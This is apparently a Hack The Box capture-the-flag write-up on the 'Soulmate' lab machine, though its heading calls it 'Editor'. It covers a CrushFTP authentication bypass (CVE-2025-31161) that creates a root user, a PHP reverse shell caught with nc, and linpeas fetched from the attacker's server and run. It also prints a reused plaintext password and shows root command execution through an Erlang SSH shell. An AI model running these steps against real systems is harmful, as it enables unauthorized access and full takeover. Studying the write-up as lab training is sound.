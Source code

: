 # 📝 Write-up: Editor (Hack The Box)

![editor](https://app.hackthebox.com/machines/Soulmate)

**Difficulty:** Easy
**Platform:** Hack The Box
**Target host (lab):** `soulmate.htb` — `10.10.11.86` (add to `/etc/hosts`)
**Link:** [Soulmate @ HTB](https://app.hackthebox.com/machines/Soulmate)

---

## 🎯 Summary

Soulmate is an easy Linux machine. Key steps:

* Initial access via **an authentication vulnerability in CrushFTP (versions prior to 11.3.1)** — CVE-2025-31161 (or CVE-2025-2825, PoC).
* Horizontal pivot: reusing a password found in configuration.
* Privilege escalation to root via a misconfigured Erlang/OTP SSH daemon.

---

## 🔒 Prerequisites / Notes

* This write-up is for the HTB CTF/lab environment — **do not run these techniques against production systems**.
* In my examples `soulmate.htb` resolves to `10.10.11.86`. Add to `/etc/hosts`:

```bash
# on the attacking machine
echo "10.10.11.86 soulmate.htb" | sudo tee -a /etc/hosts
```

* I removed obvious placeholders and pointed where to replace values: `<YOUR_IP>` — your attacking machine IP for reverse shells.

---

## 🔍 Reconnaissance

Start with an `nmap` scan:

```bash
nmap -sC -sV -p22,80,443,20 soulmate.htb
```

Example output (trimmed):

```
PORT    STATE SERVICE   VERSION
20/tcp  open  ftp-data?
22/tcp  open  ssh?
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp  open  http?
443/tcp open  https?
```

---

## 🕵️ Enumeration

### 🌐 HTTP — port 80

* Visiting [http://soulmate.htb](http://soulmate.htb) shows a dating site.
* Ran `ffuf` to discover directories — results:

```
index.php               [Status: 200, Size: 16688, Words: 6110, Lines: 306, Duration: 687ms]
login.php               [Status: 200, Size: 8554, Words: 3167, Lines: 178, Duration: 67ms]
register.php            [Status: 200, Size: 11107, Words: 4492, Lines: 238, Duration: 72ms]
profile.php             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 73ms]
assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 65ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 67ms]
dashboard.php           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 133ms]
```

* Attempts to log in using SQL injections produced odd server behavior.
  ![Odd behavior](imageSql.png)

---

### 🌐 Port 20 — FTP

* Direct connection to port `20` failed.
* Ran `ffuf` to discover subdomains:

```bash
ffuf -u http://10.10.11.86 -H "Host: FUZZ.soulmate.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 4
```

* Result:

```
ftp.soulmate.htb [Status: 302 Redirect]
```

Add to `/etc/hosts`:

```bash
echo "10.10.11.86 ftp.soulmate.htb" | sudo tee -a /etc/hosts
```

---

### ⚡ Port 20 — CrushFTP Version: 11.3.0_2

* Found a web interface with CrushFTP version displayed. Public PoCs exist for this version: `crushftp-CVE-2025-2825` and `CVE-2025-31161`.

* Using `crushftp-CVE-2025-2825` I was able to enumerate admin panel users.
  ![User list](image1.png)

* Using CVE-2025-31161 I created a new user as root without authentication:

```bash
python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user xss --password xss123
```

* Logged in as `xss`.
  ![Admin panel](image2.png)

* On `http://ftp.soulmate.htb/WebInterface/UserManager/index.htm` I found a list of users. I changed passwords and logged in as one of them — `ben` had interesting directories:

```
/IT/ – IT files
/ben/ – user home directory
/webProd/ – web production directory (upload target)
```

* Uploaded `monkey.php` into `webProd` for a reverse shell. On the attacking machine started `nc -lnvp 4444`, then visited `http://soulmate.htb/monkey.php` and got a reverse shell.

---

## Getting the reverse shell

```bash
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.184] from (UNKNOWN) [10.10.11.86] 44832
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

---

## System enumeration

* For convenience, spun up a simple HTTP server on the attacker:

```bash
python3 -m http.server 8000
```

* On the target downloaded and ran `linpeas.sh`:

```bash
cd /tmp/
wget http://10.10.14.184:8000/linpeas.sh -O lin.sh
chmod +x lin.sh
./lin.sh
```

---

### Found an interesting process

```
root  1048  0.0  1.8 2260044 72276 ? Ssl 16:06 0:03 /usr/local/lib/erlang_login/start.escript -B
```

* Inside the script I found credentials for `ben`:

```bash
cat /usr/local/lib/erlang_login/start.escript
.......
{auth_methods, "publickey,password"},
{user_passwords, [{"ben", "HouseH0ldings998"}]}
```

---

### Getting user.txt

* SSHed to the box using `ben`'s credentials:

```bash
ssh ben@soulmate
Password: HouseH0ldings998
```

* User flag:

```bash
ben@soulmate:~$ cat user.txt
81b8219692204e627f7e41a11e42b26b
```

---

## Privilege escalation to root

* Checked sudo rights:

```bash
ben@soulmate:~$ sudo -l
[sudo] password for ben:
Sorry, user ben may not run sudo on soulmate.
```

---

### Found suspicious service on port 2222

* Active ports revealed a service on `2222` — an Erlang SSH service running as root.

* Tried to SSH locally to that service using `ben`'s credentials:

```bash
ben@soulmate:~$ ssh ben@localhost -p 2222
Password: HouseH0ldings998
```

* Got an Erlang shell:

```
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1>
```

* From this shell used `os:cmd/1` to run system commands and discovered it was running as root:

```erlang
(ssh_runner@soulmate)1> os:cmd("id").
"uid=0(root) gid=0(root) groups=0(root)\n"
```

* Read `root.txt` from the shell:

```erlang
(ssh_runner@soulmate)2> os:cmd("cat /root/root.txt").
```

![root.txt](image.png)

---

## Conclusion

"Soulmate" on Hack The Box is a great machine for beginners. It lets you practice web exploitation, reverse shells and privilege escalation techniques.

Thanks for reading. I hope this guide helps you tackle other boxes on the platform.
